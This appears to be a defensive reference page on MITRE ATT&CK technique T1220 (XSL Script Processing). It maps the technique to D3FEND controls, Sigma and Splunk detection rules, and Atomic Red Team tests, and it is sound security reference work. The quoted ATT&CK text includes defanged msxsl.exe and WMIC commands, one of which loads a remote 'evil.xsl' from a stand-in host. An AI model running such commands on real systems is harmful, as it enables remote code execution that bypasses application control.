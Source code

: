 # T1220: XSL Script Processing
**MITRE ATT&CK Tactic(s):** Defense Evasion

**[MITRE ATT&CK Description](https://attack.mitre.org/techniques/T1220)**
<blockquote>Adversaries may bypass application control and obscure execution of code by embedding scripts inside XSL files. Extensible Stylesheet Language (XSL) files are commonly used to describe the processing and rendering of data within XML files. To support complex operations, the XSL standard includes support for embedded scripting in various languages. (Citation: Microsoft XSLT Script Mar 2017)

Adversaries may abuse this functionality to execute arbitrary files while potentially bypassing application control. Similar to [Trusted Developer Utilities Proxy Execution](https://attack.mitre.org/techniques/T1127), the Microsoft common line transformation utility binary (msxsl.exe) (Citation: Microsoft msxsl.exe) can be installed and used to execute malicious JavaScript embedded within local or remote (URL referenced) XSL files. (Citation: Penetration Testing Lab MSXSL July 2017) Since msxsl.exe is not installed by default, an adversary will likely need to package it with dropped files. (Citation: Reaqta MSXSL Spearphishing MAR 2018) Msxsl.exe takes two main arguments, an XML source file and an XSL stylesheet. Since the XSL file is valid XML, the adversary may call the same XSL file twice. When using msxsl.exe adversaries may also give the XML/XSL files an arbitrary file extension.(Citation: XSL Bypass Mar 2019)

Command-line examples:(Citation: Penetration Testing Lab MSXSL July 2017)(Citation: XSL Bypass Mar 2019)

* <code>msxsl.exe customers[.]xml script[.]xsl</code>
* <code>msxsl.exe script[.]xsl script[.]xsl</code>
* <code>msxsl.exe script[.]jpeg script[.]jpeg</code>

Another variation of this technique, dubbed â€œSquiblytwoâ€, involves using [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047) to invoke JScript or VBScript within an XSL file.(Citation: LOLBAS Wmic) This technique can also execute local/remote scripts and, similar to its [Regsvr32](https://attack.mitre.org/techniques/T1218/010)/ "Squiblydoo" counterpart, leverages a trusted, built-in Windows tool. Adversaries may abuse any alias in [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047) provided they utilize the /FORMAT switch.(Citation: XSL Bypass Mar 2019)

Command-line examples:(Citation: XSL Bypass Mar 2019)(Citation: LOLBAS Wmic)

* Local File: <code>wmic process list /FORMAT:evil[.]xsl</code>
* Remote File: <code>wmic os get /FORMAT:â€https[:]//example[.]com/evil[.]xslâ€</code></blockquote>
## Policy / Process Controls
### [MITRE D3FEND](https://d3fend.mitre.org/)
**Last accessed:** April 25, 2022

**Total ATT&CK-mapped resources:** 2328

**ATT&CK-mapped resources for this (sub)technique:**10

Resources mapped to this (sub)technique can be viewed on [this page](https://d3fend.mitre.org/) (see also the [ATT&CK to D3FEND Mapper](https://d3fend.mitre.org/tools/attack-mapper) tool):

* [Process Spawn Analysis](https://d3fend.mitre.org/techniques/d3f:ProcessSpawnAnalysis)
* [System Call Analysis](https://d3fend.mitre.org/techniques/d3f:SystemCallAnalysis)
* [File Analysis](https://d3fend.mitre.org/techniques/d3f:FileAnalysis)
* [Decoy File](https://d3fend.mitre.org/techniques/d3f:DecoyFile)
* [Dynamic Analysis](https://d3fend.mitre.org/techniques/d3f:DynamicAnalysis)
* [Emulated File Analysis](https://d3fend.mitre.org/techniques/d3f:EmulatedFileAnalysis)
* [Local File Permissions](https://d3fend.mitre.org/techniques/d3f:LocalFilePermissions)
* [System Call Filtering](https://d3fend.mitre.org/techniques/d3f:SystemCallFiltering)
* [Executable Denylisting](https://d3fend.mitre.org/techniques/d3f:ExecutableDenylisting)
* [Executable Allowlisting](https://d3fend.mitre.org/techniques/d3f:ExecutableAllowlisting)

## Technical Controls (Detection Rules)
### [Sigma rules public repository](https://github.com/SigmaHQ/sigma)
**Last accessed:** April 25, 2022

**Total ATT&CK-mapped rules:** 2330

**ATT&CK-mapped resources for this (sub)technique:**3

Resources mapped to this (sub)technique can be located in the following files within [this repository](https://github.com/SigmaHQ/sigma/tree/master/rules):

* [sigma/rules/windows/image_load/image_load_wmic_remote_xsl_scripting_dlls.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/image_load/image_load_wmic_remote_xsl_scripting_dlls.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_bypass_squiblytwo.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_bypass_squiblytwo.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_xsl_script_processing.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_xsl_script_processing.yml)

### [Splunk Security Content](https://github.com/splunk/security_content)
**Last accessed:** April 25, 2022

**Total ATT&CK-mapped rules:** 1393

**ATT&CK-mapped resources for this (sub)technique:**2

Resources mapped to this (sub)technique can be located in the following files within [this repository](https://github.com/splunk/security_content/tree/develop/detections):

* [security_content/detections/endpoint/wmic_xsl_execution_via_url.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/wmic_xsl_execution_via_url.yml)
* [security_content/detections/endpoint/xsl_script_execution_with_wmic.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/xsl_script_execution_with_wmic.yml)


## Offensive Security Tests
### [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team)
**Last accessed:** April 25, 2022

**Total ATT&CK-mapped tests:** 1161

**ATT&CK-mapped resources for this (sub)technique:**4

The following unit tests mapped to this (sub)technique can be located in the file [here](https://github.com/redcanaryco/atomic-red-team/tree/master/atomics/T1220/T1220.yaml):

* MSXSL Bypass using local files
* MSXSL Bypass using remote files
* WMIC bypass using local XSL file
* WMIC bypass using remote XSL file

